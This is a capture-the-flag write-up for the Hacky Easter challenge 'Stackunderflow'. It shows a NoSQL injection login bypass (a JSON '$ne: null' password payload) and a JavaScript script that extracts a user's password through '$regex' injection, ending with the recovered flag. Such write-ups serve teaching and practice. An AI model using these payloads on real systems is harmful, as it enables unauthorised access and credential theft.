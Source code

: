 # 10 - Stackunderflow

## Description
Level: medium<br/>
Author: 0xI

Check out this new Q&A site. They must be hiding something but we don't know where to search.

[Stackunderflow](http://whale.hacking-lab.com:3371/)

## Solution

This was my own (and first) challenge that I provided for Hacky Easter. In this writeup I will discuss my intended
solution for this challenge. You find the source code of the challenge [here](stackunderflow).

From the questions on the website it should be obvious that a NoSQL database is involved.

![Stackunderflow homepage](homepage.png)

The user the_admin will be our first target. To bypass the authentication I used the following request:

```
POST http://localhost:3000/login
Content-Type: application/json

{
  "username": "the_admin",
  "password": {
    "$ne": null
  }
}
```

The_admin is able to see some hidden questions. One of them is really interesting:
The user null asks: "Should my password really be the flag?"

![Questions that the_admin sees](logged_in.png)

It's now clear that we have to bruteforce his password. To do this the request has to be JSON.

From there it's quite easy:

```javascript
function tryLogin(current, callback) {
    fetch('http://localhost:3000/login', {
        method: 'POST',
        headers: {
            "Content-Type": "application/json",

        },
        body: JSON.stringify(
            {
                "username": "null",
                "password": {
                    "$regex": "^" + current + ".*$"
                }
            }
        )
    }).then(response => {
        if (response.status == 200) {
            console.log(current);
            callback(current);
        }
    });

}

function request(current) {
    for (let i = 48; i <= 122; i++) {
        const c = String.fromCodePoint(i)

        if (['?', '^', '|', '\\'].includes(c)) {
            continue;
        }

        tryLogin(current + c, request)
    }
}

request('');
```

The password is: `N0SQL_injections_are_a_thing`
